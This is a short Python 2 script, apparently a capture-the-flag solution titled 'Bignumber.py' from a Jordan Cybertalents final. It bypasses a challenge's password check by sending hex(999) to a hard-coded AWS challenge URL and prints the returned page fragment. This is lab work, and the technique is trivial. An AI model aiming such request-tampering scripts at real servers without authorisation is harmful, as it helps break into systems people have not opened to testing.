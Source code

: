 # Bignumber.py
#Final Jordan Cybertalents
Zero - %00Byte

#!/usr/bin/python

import requests 

payload = hex(999)
url="http://ec2-35-164-4-176.us-west-2.compute.amazonaws.com/bignumber/?password="+payload[2:]
session = requests.Session()
res = session.get(url)
print res.text.split("<center><h1>")[1]
